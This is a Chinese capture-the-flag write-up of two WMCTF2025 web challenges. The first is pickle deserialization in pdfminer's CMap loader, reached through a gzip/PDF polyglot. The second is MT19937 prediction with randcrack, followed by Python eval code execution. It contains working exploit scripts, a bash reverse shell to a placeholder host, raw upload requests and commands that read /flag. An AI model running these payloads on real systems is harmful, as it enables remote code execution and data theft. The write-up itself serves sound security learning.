







# WMCTF2025 Web部分题解-先知社区

> **来源**: https://xz.aliyun.com/news/18965  
> **文章ID**: 18965

---

# pdf2text

提示

Search "pickle.loads" in pdfminer package and try to reach it

我们全局搜索一下



看着挺多，把带有dumps的去了也就没多少了



最后锁定这里，我们单独理一下这里的逻辑

```
 def _load_data(cls, name: str) -> Any:
        name = name.replace("\0", "")
        filename = "%s.pickle.gz" % name
        log.debug("loading: %r", name)
        cmap_paths = (
            os.environ.get("CMAP_PATH", "/usr/share/pdfminer/"),
            os.path.join(os.path.dirname(__file__), "cmap"),
        )
        for directory in cmap_paths:
            path = os.path.join(directory, filename)
            if os.path.exists(path):
                gzfile = gzip.open(path)
                try:
                    return type(str(name), (), pickle.loads(gzfile.read()))
                finally:
                    gzfile.close()
        raise CMapDB.CMapNotFound(name)
```

遍历的文件路径先尝试从环境变量 `CMAP_PATH` 中获取，如果环境变量未设置，则使用默认路径 `/usr/share/pdfminer/`，或者遍历当前脚本所在目录与 `cmap` 子目录拼接的子目录

但是我们上传的文件怎么控制到上边的这些其中一个地方呢？我们理一下整个处理流程

get\_cmap\_from\_spec()走到 CMapDB.\_load\_data()，get\_cmap()又调用\_load\_data





很明显name是从get\_cmap\_from\_spec那里传的我们看一下

```
    def get_cmap_from_spec(self, spec: Mapping[str, Any], strict: bool) -> CMapBase:
        """Get cmap from font specification
    从字体配置信息中获取字符映射表（CMap）
    
    对于某些PDF文件，编码类型（Encoding Type）不会作为Encoding的属性直接给出，
    而是作为CMapName的属性存在，其中CMapName又是spec['Encoding']的一个属性
    水平/垂直模式会用不同的名称表示，比如'DLIdent-H/V'、'OneByteIdentityH/V'、'Identity-H/V'等。
    """
        cmap_name = self._get_cmap_name(spec, strict)

        try:
            return CMapDB.get_cmap(cmap_name)
        except CMapDB.CMapNotFound as e:
            if strict:
                raise PDFFontError(e)
            return CMap()
```

这里注释我翻译成了中文，关键是CMapName是spec['Encoding']的一个属性

也就是说name通过/Encoding属性可控，也就是我们能控制filename



那么我们设置/Encoding属性为/app/uploads/xx，配合这里的path.join就能把filename变为/app/uploads/xx.pickle.gz，但是在pdf的属性里面/是分隔符，我们这里稍微搜一下ai了解到用#2F代替即可，这里还有一个需要注意的点，/Encoding命名必须符合PDF的编码名，也就是加上-H （水平书写模式)例如

> /Encoding /#2Fapp#2Fuploads#2FYUN-H

那么下一个问题来了，我们上传的是pdf文件，怎么保证它既满足pdf的格式又能被gz解压呢？

经过测试，满足条件的最小pdf明文字符串是

> trailer
>
> <</Root 1>>
>
> xref

但是直接明文写进去也不行，.gz要求内部是DEFLATE 格式数据流，zlib 会生成合法的 DEFLATE 数据流（即使是无压缩，也会按 DEFLATE 规范包装），所以可以通过zlib.compressobj来压缩，内部使用 stored block / 无压缩来确保格式合法

然后pickle反序列化的部分，最好用opcode来控制，因为后面的脏数据会被当成pickle的内容，我们可以用(S"XXX"来包裹从而确定需要序列化的范围

捋一下思路，我们先上传恶意的gz文件，再上传有恶意/Encoding属性的PDF来造成PDF解析，从而触发gz压缩

按照上边的思路来写脚本,这里直接拿队里的脚本了

```
import os
import pickle
import gzip

def create_payload():
    class Attack:
        def __reduce__(self):
            return (os.system, ('echo "12312312321攻击成功执行!"',))
    return pickle.dumps(Attack())


def create_malicious_cmap():
    temp_dir = "./"
    cmap_file = os.path.join(temp_dir, "Attack-H.pickle.gz")

    with gzip.open(cmap_file, 'wb') as f:
        f.write(create_payload())

    print(f"✅ 恶意CMap: {cmap_file}")
    return temp_dir


def create_evil_pdf():
    """生成恶意PDF"""
    pdf_data = b"""%PDF-1.4
1 0 obj
<<
/Type /Catalog
/Pages 2 0 R
>>
endobj

2 0 obj
<<
/Type /Pages
/Kids [3 0 R]
/Count 1
>>
endobj

3 0 obj
<<
/Type /Page
/Parent 2 0 R
/MediaBox [0 0 612 792]
/Resources <<
/Font <<
/F1 4 0 R
>>
>>
/Contents 5 0 R
>>
endobj

4 0 obj
<<
/Type /Font
/Subtype /Type0
/BaseFont /HeiseiMin-W3
/Encoding /#2Fapp#2Fuploads#2FAttack-H
/DescendantFonts [6 0 R]
>>
endobj

5 0 obj
<<
/Length 60
>>
stream
BT
/F1 12 Tf
100 700 Td
(Chinese Test) Tj
0 -20 Td
(Attack PDF) Tj
ET
endstream
endobj

6 0 obj
<<
/Type /Font
/Subtype /CIDFontType0
/BaseFont /HeiseiMin-W3
/CIDSystemInfo <<
/Registry (Adobe)
/Ordering (Japan1)
/Supplement 0
>>
>>
endobj

xref
0 7
0000000000 65535 f 
0000000009 00000 n 
0000000058 00000 n 
0000000115 00000 n 
0000000251 00000 n 
0000000369 00000 n 
0000000489 00000 n 
trailer
<<
/Size 7
/Root 1 0 R
>>
startxref
629
%%EOF"""

    with open("attack.pdf", 'wb') as f:
        f.write(pdf_data)

    print("恶意PDF: attack.pdf")
    return "attack.pdf"


def execute_attack(cmap_dir, pdf_file):
    # 设置恶意CMap路径
    os.environ['CMAP_PATH'] = cmap_dir

    try:
        from pdfminer.high_level import extract_text
        text = extract_text(pdf_file)
        print(f"PDF内容: {text}")
    except Exception as e:
        print(f"处理异常: {e}")

    print("攻击完成")


def main():
    # 生成恶意字符集
    cmap_dir = create_malicious_cmap()

    # 生成恶意PDF
    pdf_file = create_evil_pdf()

    # 执行攻击测试
    execute_attack(cmap_dir, pdf_file)


if __name__ == "__main__":
    main()
```

因为解析问题，脚本呢之类不能改，我们上传时抓包修改/Ecoding加上#2Fapp#2Fuploads#2F

```
import gzip
import zlib
import requests

pdf = b"""(S"
trailer
<</Root 1>>
xref
""""     #明文脏数据，保证通过pdf的判断


def opcode():
    a = '''(S"bash -c 'bash -i >& /dev/tcp/xxx/2333 0>&1'"
ios
system
.'''
    return a.encode()


cmap_file = "Attack-H.pickle.gz"
with gzip.open(cmap_file, 'wb') as f:
    f.write(opcode())

#  把 pdf 打包成一个合法的 gzip 成员（内部使用 stored block / 无压缩）
#  注意：wbits=31 -> 16 + MAX_WBITS -> 生成带 gzip wrapper 的字节流
comp = zlib.compressobj(level=0,    # 0 -> no compression -> stored blocks
                        method=zlib.DEFLATED,
                        wbits=31)      # 16 + MAX_WBITS -> gzip wrapper

gz_bytes = comp.compress(pdf) + comp.flush()

with open(cmap_file, "ab") as f:
    f.write(gz_bytes)


url = "http://49.232.42.74:30852"
requests.post(url + "/upload",files={"file": open(cmap_file, 'rb')})
```

再传pdf

> POST /upload HTTP/1.1
>
> Host: 49.232.42.74:30852
>
> User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0
>
> Accept: \*/\*
>
> Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
>
> Accept-Encoding: gzip, deflate, br
>
> Referer: <http://49.232.42.74:30852/>
>
> Content-Type: multipart/form-data; boundary=----geckoformboundary37425331aa8ca29398aa0cc1664f31f8
>
> Content-Length: 1076
>
> Origin: <http://49.232.42.74:30852>
>
> Connection: keep-alive
>
> Priority: u=0
>
> ​
>
> ------geckoformboundary37425331aa8ca29398aa0cc1664f31f8
>
> Content-Disposition: form-data; name="file"; filename="attack.pdf"
>
> Content-Type: application/pdf
>
> ​
>
> %PDF-1.4
>
> 1 0 obj
>
> <<
>
> /Type /Catalog
>
> /Pages 2 0 R
>
> >>
>
> endobj
>
> ​
>
> 2 0 obj
>
> <<
>
> /Type /Pages
>
> /Kids [3 0 R]
>
> /Count 1
>
> >>
>
> endobj
>
> ​
>
> 3 0 obj
>
> <<
>
> /Type /Page
>
> /Parent 2 0 R
>
> /MediaBox [0 0 612 792]
>
> /Resources <<
>
> /Font <<
>
> /F1 4 0 R
>
> >>
>
> >>
>
> /Contents 5 0 R
>
> >>
>
> endobj
>
> ​
>
> 4 0 obj
>
> <<
>
> /Type /Font
>
> /Subtype /Type0
>
> /BaseFont /HeiseiMin-W3
>
> /Encoding /#2Fapp#2Fuploads#2FAttack-H
>
> /DescendantFonts [6 0 R]
>
> >>
>
> endobj
>
> ​
>
> 5 0 obj
>
> <<
>
> /Length 60
>
> >>
>
> stream
>
> BT
>
> /F1 12 Tf
>
> 100 700 Td
>
> (Chinese Test) Tj
>
> 0 -20 Td
>
> (Attack PDF) Tj
>
> ET
>
> endstream
>
> endobj
>
> ​
>
> 6 0 obj
>
> <<
>
> /Type /Font
>
> /Subtype /CIDFontType0
>
> /BaseFont /HeiseiMin-W3
>
> /CIDSystemInfo <<
>
> /Registry (Adobe)
>
> /Ordering (Japan1)
>
> /Supplement 0
>
> >>
>
> >>
>
> endobj
>
> ​
>
> xref
>
> 0 7
>
> 0000000000 65535 f
>
> 0000000009 00000 n
>
> 0000000058 00000 n
>
> 0000000115 00000 n
>
> 0000000251 00000 n
>
> 0000000369 00000 n
>
> 0000000489 00000 n
>
> trailer
>
> <<
>
> /Size 7
>
> /Root 1 0 R
>
> >>
>
> startxref
>
> 629
>
> %%EOF
>
> ------geckoformboundary37425331aa8ca29398aa0cc1664f31f8--

成功弹shell



> flag{c51ee0f1-3fa3-467e-8a6b-75f8afd31869}

# guess

这里给了源码

稍微代审一下，这里贴一下关键代码

```
def protected_api():

    data = request.get_json()

    key1 = data.get('key')
    
    if not key1:
        return jsonify({'error': 'key are required'}), 400

    key2 = generate_random_string()
    if not str(key1) == str(key2):
        return jsonify({
            'message': 'Not Allowed:' + str(key2) ,
        }), 403
    

    payload = data.get('payload')

    if payload:
        eval(payload, {'__builtin__':{}})
    
    return jsonify({
        'message': 'Access granted',
    })
```

关键在于预测key2的值，而key2的值生成逻辑如下

```
rd = random.Random()
def generate_random_string():
    return str(rd.getrandbits(32))
```

转换一下也就是

> random.getrandits(32)生成一个32比特长的随机整数

要想预测key2，我们需要关注这里的随机数的逻辑，random库内置的算法为梅森算法 ，之所以叫梅森是因为最长周期取自一个梅森素数2的19937次方−1，也就是说只要超过周期，我们即可预测下一个key2

最为广泛使用梅森算法的一种变体是MT19937，可以产生32位整数序列，也就是这题随机数产生的算法， 其生成的数据在624\*32=19936后会达到循环

mt19937的随机数生成器结构首先需要一个uint32的种子，然后生成一个具有624个uint32数组的状态数组。生成状态数组之后，进行一次旋转，最终可以输出624个随机的uint32，然后重复执行旋转操作，我们通过注册用户的随机id或者访问api回显的key2来收集到624个随机数，也就能进行主动旋转预测下一次的key2

脚本实现如下

```
import requests
from randcrack import RandCrack

TARGET_URL = "http://49.232.42.74:30149/"


def collect_needed_randoms(required=624):
    """收集足够的随机数用于恢复状态"""
    rc = RandCrack()
    collected = 0

    # 1. 从注册接口收集
    print("从注册接口收集随机数...")
    while collected < required:
        username = f"rc_collect_{collected}_{hash(str(collected))}"
        password = "collect_123"
        try:
            response = requests.post(
                f"{TARGET_URL}/register",
                json={"username": username, "password": password},
                timeout=10
            )
            if response.status_code == 201:
                user_id = int(response.json()["user_id"])
                rc.submit(user_id)
                collected += 1
                if collected % 50 == 0:  # 每50个进度提示
                    print(f"已收集 {collected}/{required} 个")
            else:
                print(f"注册接口受限，切换到API接口 (状态码: {response.status_code})")
                break
        except Exception as e:
            print(f"注册请求错误: {str(e)}，切换到API接口")
            break

    # 2. 从API接口补充剩余
    if collected < required:
        print(f"从API接口补充剩余 {required - collected} 个...")
        while collected < required:
            try:
                response = requests.post(
                    f"{TARGET_URL}/api",
                    json={"key": "invalid_key"},
                    timeout=10
                )
                message = response.json().get("message", "")
                if "Not Allowed:" in message:
                    key2 = int(message.split("Not Allowed:")[1].strip())
                    rc.submit(key2)
                    collected += 1
                    if collected % 50 == 0:
                        print(f"已收集 {collected}/{required} 个")
            except Exception as e:
                print(f"API请求错误: {str(e)}，继续尝试...")

    return rc if collected >= required else None


def predict_next_20(rc):
    """预测后续20个随机数"""
    print("
预测的后续20个随机数:")
    predictions = []
    for i in range(20):
        pred = rc.predict_getrandbits(32)
        predictions.append(pred)
        print(f"第{i + 1}个: {pred}")
    return predictions


def test_predictions(predictions):
    """测试预测的随机数是否正确（通过API接口验证）"""
    print("
开始验证预测结果...")
    success = 0
    for i, pred in enumerate(predictions[:5]):  # 测试前5个即可
        try:
            response = requests.post(
                f"{TARGET_URL}/api",
                json={"key": str(pred)},
                timeout=10
            )
            if response.status_code == 200:
                print(f"第{i + 1}个预测正确! 响应: {response.text}")
                success += 1
            else:
                actual = response.json().get("message", "").split("Not Allowed:")[-1]
                print(f"第{i + 1}个预测错误 - 预测值: {pred}, 实际值: {actual}")
        except Exception as e:
            print(f"验证第{i + 1}个失败: {str(e)}")

    print(f"
验证结果: {success}/5 预测正确")


if __name__ == "__main__":
    # 1. 收集624个随机数恢复状态
    rc = collect_needed_randoms()
    if not rc:
        print("无法收集足够的随机数，退出")
        exit(1)

    # 2. 预测后续20个随机数
    predictions = predict_next_20(rc)

    # 3. 验证预测结果（可选）
    test_predictions(predictions)

```

得到key2的预测值再来rce，但是无回显，我们构造payload，自己创一个静态目录再把命令结果写到文件里

> \_\_import\_\_('os').system('mkdir /app/static')
>
> \_\_import\_\_('os').system('cat /flag > /app/static/flag.txt')


